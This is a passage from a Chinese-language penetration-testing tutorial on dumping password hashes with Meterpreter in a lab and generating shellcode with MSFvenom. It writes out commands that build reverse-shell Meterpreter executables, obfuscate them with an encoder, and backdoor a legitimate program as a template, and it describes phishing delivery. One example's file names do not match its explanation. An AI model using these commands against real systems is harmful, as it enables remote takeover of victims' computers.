 图 27：使用 hashdump 命令转储目标系统的当前哈希值

前面的哈希值是从 Metasploitable 3 虚拟机中转储出来的。请保留这些，因为您将在第六章中再次使用它们，理解密码攻击。我将它们保存为`Meta3-hashes.txt`。

Meterpreter 有很多功能。在进行各种渗透测试时，您将在不同的场景中利用不同的功能。

# 使用 MSFvenom

在本章的前面，我们专注于使用 Metasploit Framework 来利用目标系统上的漏洞并控制它。使用 MSFvenom，您不是依赖系统中的漏洞，而是旨在利用所有组织中最常见的安全问题：用户。这是一个永远无法完全修补的漏洞。

MSFvenom 基本上用于构建 shellcode。Shellcode 可以定义为当运行时，创建一个反向远程 shell 返回给攻击者的代码。

将 shellcode 插入文件中，然后将该文件发送到目标。这可以通过钓鱼活动来完成，就像我们在《社交工程大师》[第四章]中学到的那样。一旦运行文件，您就可以远程访问目标计算机。现实世界的攻击者也利用这种技术。Shellcode 不仅限于文件，还可以插入软件中。这在您可能在移动设备应用商店中找到的恶意应用程序中很常见。远离钓鱼和软件，shellcode 还可以嵌入到被入侵的网站中。因此，当有人浏览网站时，恶意软件可以加载到他们的计算机上，从而使其受到威胁。

在早期版本的 Metasploit 中可以使用`msfpayload`和`msfencode`命令构建 shellcode。这些服务现在已经与`msfvenom`实用程序合并并替换。如果你习惯了旧工具，`msfvenom`不是问题，因为几乎没有修改。

使用 MSFvenom 有一些优势：

+   有一个单一的工具来生成跨平台的 shellcode。

+   命令行选项是标准化的。

+   创建 shellcode 的速度增加，使您能够使用应用程序作为模板。

要使用 MSFvenom，您需要在 Kali Linux 的终端窗口中输入`msfvenom`命令。该应用程序将向您呈现一系列可用选项。其中一些最重要的选项如下：

+   `-p`用于选择 Metasploit 有效载荷。有许多可用的有效载荷；这些支持 Windows、Linux、Mac 等。定义有效载荷的示例如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -f exe -o shell.exe
```

在这个例子中，我们使用了`windows/meterpreter/reverse_tcp`有效载荷，定义了本地主机和 IP 地址。使用`-f`选项定义输出格式为`.exe`，使用`-o`选项将输出文件保存为`shell.exe`。

+   `-e`用于选择编码器。编码器是一种算法，可用于重新编码有效载荷。这用于混淆有效载荷的意图。您可以使用`msfvenom -l encoders`命令找到编码器列表。使用编码器的示例如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -e x86/shikata_ga_nai -i 3 -f exe -o payload.exe
```

在这个例子中，选择的编码器是`shikata_ga_nai`，定义的迭代次数是`3`，使用了`-i`选项。

+   `-x`用于定义要用作模板的自定义可执行文件。使用此选项，您可以获取合法文件并创建其恶意版本，从而获得远程 shell。使用示例如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -x procmon.exe -f exe -o evilprocmon.exe
```

在这个例子中，`putty.exe`被用作模板，创建了一个恶意版本的`evilputty.exe`。

# 总结
